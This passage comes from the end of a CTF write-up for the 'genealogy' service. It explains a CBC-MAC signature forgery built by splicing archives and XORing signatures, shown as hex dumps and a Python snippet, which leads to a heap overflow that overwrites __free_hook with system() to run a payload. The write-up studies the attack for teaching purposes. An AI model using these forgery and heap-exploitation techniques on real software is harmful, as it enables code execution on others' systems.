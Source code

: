 The third archive has the following structure:

```
00 a7 01 01 d1 04 78 78 78 [again a lot of 78s...] 78 
02 57
Oh my God! This 02 57 is a field index and string's length now, but look — they were here on the signing process of the previous archive because its total length is 0x257. It's amazing!

07 07 07 07 07 07 07
Oh my God again! These bytes are just description's bytes here, but for the previous archive they were 
the padding before AES-256-CBC-MAC.

78 78 78 78 [yes, just a bunch of 78s, we need them again...]
03 00 03 c1 03 03 f0 dc 88 a1 94 e1 1f 04 1c 07 
18 07 0c 00 d0 bc aa a0 94 e1 1f 07 00 07 00 07
08 00 d0 bc aa a0 94 e1 1f 07 00 
```

As you can see, `M3` satisfies all requirements, it starts with `M2`, followed by its length and the padding.

It means we can build `M4` — archive with the heap overflow (it will contain 63 = 60 + 3 elements in the `owners` list, first bunch from the `M1` and last three from `M3`):

```(python)
suffix = archive3[len(archive1) + len(length_and_padding1):]
hacked_archive = archive1 + length_and_padding1 + bytes(xor(xor(signature1, signature2), suffix))
```

When we send this archive with the valid signature (it's the same as for `M3`) to the server, we overwrite `__free_hook` to the address of the `system()`, so each next `free(object)` call will be the same as `system(address)`. But one of the following `free()` call will be invoked for the `owners` list.
And it's the reason why we've put our `PAYLOAD` to this list at the same beginning of exploit building.

Any questions? Feel free to write to [andgein@hackerdom.ru](mailto:andgein@hackerdom.ru) or read the [full exploit](https://github.com/HITB-CyberWeek/proctf-2021/blob/main/sploits/genealogy/genealogy.sploit.py)